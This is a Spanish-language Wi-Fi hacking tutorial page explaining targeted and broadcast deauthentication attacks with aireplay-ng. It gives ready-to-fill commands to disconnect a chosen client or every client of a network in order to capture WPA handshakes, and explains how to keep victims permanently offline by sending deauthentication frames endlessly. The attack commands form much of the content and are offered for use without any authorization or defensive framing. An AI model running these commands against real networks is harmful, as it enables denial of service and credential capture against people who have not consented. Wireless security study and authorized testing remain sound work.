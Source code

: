 
## ATAQUE DE DEAUTENTICACIÓN DIRIGIDO

Con este ataque básicamente `vamos a desconectar a un usuario` de la red que queramos. Si vemos que `los frames están aumentando, significa que el usuario está activo` y por lo tanto, se va a `reconectar` y ahí podremos capturar el `handshake`. Claro, también podemos querer que el usuario `no se pueda conectar` entonces podemos desconectarlo continuamente.

```
#Deautenticar / Desconectar a un usuario una vez
> aireplay -0 {paquetes que quieres emitirle (por ejemplo 10)} -e {nombre de la red} -c {MAC del cliente} {tarjeta de red en modo monitor}

#Otra forma de hacerlo
> aireplay --deauth 2000 -a {bssid de la red} -c {MAC víctima} {tarjeta de red} (esta es 	otra opción de hacerlo)


# IMPORTANTE: si queremos que ese cliente no se pueda conectar, en el número de paquetes ponemos 0 y se estarán mandando paquetes de deautenticación uno tras otro hasta que tú hagas Control+C o cierres la consola.
```

Ejemplo:

![](/assets/images/Wifi-Hacking/Deauth-dirigido.PNG)


## ATAQUE DE DEAUTENTICACIÓN GLOBAL

Esto es lo mismo que el anterior, pero para desconectar a todos los clientes, de esta forma `es más probable conseguir uno o varios handshakes`. O también se puede utilizar para otros fines.

Para esto reemplazaremos la MAC del cliente víctima por la `broadcast MAC: FF:FF:FF:FF:FF:FF` y asi seleccionaremos `todos los clientes` para desconectarlos. Aunque aireplay-ng tiene una facilidad con la cual si no ponemos ninguna MAC, por defecto seleccionará todos los usuarios.

```
#Forma 1
> aireplay-ng -0 10 -e {nombre de la red} -c FF:FF:FF:FF:FF:FF {nombre de la tarjeta de red}

#Forma 2 (la que facilita aireplay)
> aireplay-ng -0 10 -e {nombre de la red} {tarjeta de red}

# IMPORTANTE: aquí también podemos hacer que no se puedan reconectar
```
